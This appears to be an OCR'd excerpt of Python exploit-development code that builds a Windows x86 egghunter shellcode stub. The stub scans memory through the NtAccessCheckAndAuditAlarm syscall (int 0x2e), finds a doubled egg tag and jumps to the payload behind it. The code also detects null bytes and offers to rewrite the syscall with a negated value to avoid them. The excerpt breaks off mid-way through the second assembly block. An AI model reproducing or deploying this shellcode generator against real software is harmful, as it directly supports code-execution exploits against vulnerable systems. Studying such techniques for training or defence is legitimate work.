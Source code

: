 ```
    little_endian = to_little_endian(hex_word)

    CODE = (

        "							 "
        "	loop_inc_page:			 "
        "		or dx, 0x0fff		;"
        "	loop_inc_one:			 "
        "		inc edx				;"
        "	loop_check:				 "
        "		push edx			;"
        f"		push 0x{ntaccess} 			;"
        "		pop eax				;"
        "		int 0x2e			;"
        "		cmp al,05			;"
        "		pop edx				;"
        "	loop_check_valid:		 "
        "		je loop_inc_page	;"
        "	is_egg:					 "
        f"		mov eax, 0x{little_endian}	;"
        "		mov edi, edx		;"
        "		scasd				;"
        "		jnz loop_inc_one	;"
        "		scasd				;"
        "		jnz loop_inc_one	;"
        "	matched:				 "
        "		jmp edi				;"
    )

    encoding, instructions = generate_egghunter(CODE)

    # Check for null bytes
    if "\\x00" in instructions:
        print("[*] Null bytes detected in the egg hunter")
        user_choice = input("[*] Do you want to use negated syscall to avoid null bytes? (Y/N): ").lower()
        if user_choice == "y":
            negated_syscall_hex = calculate_negated_syscall(ntaccess)
            print(f"[+] Using negated syscall value: 0x{negated_syscall_hex}")
            CODE = (

                "							 "
                "	loop_inc_page:			 "
                "		or dx, 0x0fff		;"
                "	loop_inc_one:			 "
                "		inc edx				;"
                "	loop_check:				 "
                "		push edx			;"
                f"		mov eax, 0x{negated_syscall_hex}	;"
                "		neg eax				;"
                "		int 0x2e			;"
                "		cmp al,05			;"
                "		pop edx				;"
                "	loop_check_valid:		 "
                "		je loop_inc_page	;"
                "	is_egg:					 "
                f"		mov eax, 0x{little_endian}	;"
                "		mov edi, edx		;"
                "		scasd				;"
                "		jnz loop_inc_one	;"
                "		scasd				;"
                "		jnz loop_inc_one	;"
                "	matched:				 "
```